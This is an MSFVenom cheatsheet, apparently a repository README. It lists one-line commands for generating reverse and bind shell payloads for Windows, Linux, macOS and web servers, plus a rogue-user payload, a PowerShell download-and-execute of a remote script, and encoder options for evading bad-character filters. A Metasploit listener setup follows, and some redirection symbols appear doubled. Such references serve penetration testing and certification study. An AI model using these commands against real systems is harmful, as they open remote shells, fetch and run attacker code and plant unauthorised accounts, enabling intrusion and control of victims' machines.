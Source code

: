 # MSFVenom Cheatsheet
Single Page Cheatsheet for common MSF Venom One Liners  
Available in PDF, DOCX and Markdown format!


# MSFVenom Cheatsheet

|    msfvenom -l   payloads                                                                                                                                                                 |    List available payloads                                     |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|
|    msfvenom -p   <<PAYLOAD>> -e <<ENCODER>> -f <<FORMAT>> -i <<ENCODE COUNT>>   LHOST=<<IP>>                                                                                                        |    Payload Encoding                                            |
|    msfvenom -p   linux/x86/meterpreter/reverse_tcp LHOST=<<IP>> LPORT=<<PORT>> -f elf   >> shell.elf                                                                                           |    Linux Meterpreter  reverse shell x86 multi stage            |
|    msfvenom -p   linux/x86/meterpreter/bind_tcp RHOST=<<IP>> LPORT=<<PORT>> -f elf   >> shell.elf                                                                                              |    Linux Meterpreter  bind shell x86 multi stage               |
|    msfvenom -p linux/x64/shell_bind_tcp   RHOST=<<IP>> LPORT=<<PORT>> -f elf >> shell.elf                                                                                                      |    Linux bind shell x64 single stage                           |
|    msfvenom -p linux/x64/shell_reverse_tcp   RHOST=<<IP>> LPORT=<<PORT>> -f elf >> shell.elf                                                                                                   |    Linux reverse shell x64 single stage                        |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=<<IP>> LPORT=<<PORT>> -f exe   >> shell.exe                                                                                             |    Windows Meterpreter reverse shell                           |
|    msfvenom -p   windows/meterpreter/bind_tcp RHOST= <<IP>> LPORT=<<PORT>> -f exe >>   shell.exe                                                                                               |    Windows Meterpreter bind shell                              |
|    msfvenom -p   windows/shell/reverse_tcp LHOST=<<IP>> LPORT=<<PORT>> -f exe >>   shell.exe                                                                                                   |    Windows CMD Multi Stage                                     |
|    msfvenom -p windows/shell_reverse_tcp LHOST=<<IP>> LPORT=<<PORT>>   -f exe >> shell.exe                                                                                                     |    Windows CMD Single Stage                                    |
|    msfvenom -p   windows/adduser USER=hacker PASS=password -f exe >> useradd.exe                                                                                                           |    Windows add user                                            |
|    msfvenom -p   osx/x86/shell_reverse_tcp LHOST=<<IP>> LPORT=<<PORT>> -f macho >>   shell.macho                                                                                               |    Mac Reverse Shell                                           |
|    msfvenom -p   osx/x86/shell_bind_tcp RHOST=<<IP>> LPORT=<<PORT>> -f macho >>   shell.macho                                                                                                  |    Mac Bind shell                                              |
|    msfvenom -p   cmd/unix/reverse_python LHOST=<<IP>> LPORT=<<PORT>> -f raw >>   shell.py                                                                                                      |    Python Shell                                                |
|    msfvenom -p   cmd/unix/reverse_bash LHOST=<<IP>> LPORT=<<PORT>> -f raw >>   shell.sh                                                                                                        |    BASH Shell                                                  |
|    msfvenom -p   cmd/unix/reverse_perl LHOST=<<IP>> LPORT=<<PORT>> -f raw >>   shell.pl                                                                                                        |    PERL Shell                                                  |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=<<IP>> LPORT=<<PORT>> -f asp   >> shell.asp                                                                                             |    ASP Meterpreter shell                                       |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=<<IP>> LPORT=<<PORT>> -f raw >>   shell.jsp                                                                                                  |    JSP Shell                                                   |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=<<IP>> LPORT=<<PORT>> -f war >>   shell.war                                                                                                  |    WAR Shell                                                   |
|    msfvenom -p   php/meterpreter_reverse_tcp LHOST=<<IP>> LPORT=<<PORT>> -f raw >>   shell.php   cat shell.php | pbcopy && echo '<<?php ' | tr -d '\n' >>   shell.php && pbpaste >>>> shell.php    |    Php Meterpreter Shell                                       |
|    msfvenom -p   php/reverse_php LHOST=<<IP>> LPORT=<<PORT>> -f raw >>   phpreverseshell.php                                                                                                   |    Php Reverse Shell                                           |
|    msfvenom -a x86   --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object   Net.webClient).downloadString('http://<<IP>>/nishang.ps1')\""   -f python                        |    Windows Exec Nishang Powershell in   python   1342 bytes    |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=<<IP>> LPORT=<<PORT>>   -f c -e x86/shikata_ga_nai -b "\x04\xA0"                                                            |    Bad characters shikata_ga_nai                               |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=<<IP>> LPORT=<<PORT>>   -f c -e x86/fnstenv_mov -b "\x04\xA0"                                                               |    Bad characters fnstenv_mov                                  |

# Multihandler Listener
To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,  
```
msf>use exploit multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>  
msf>set lport <PORT>  
msf> set ExitOnSession false  
msf>exploit -j  
```
The -j option is to keep all the connected session in the background.  


# References

https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675  
https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/  
http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/  
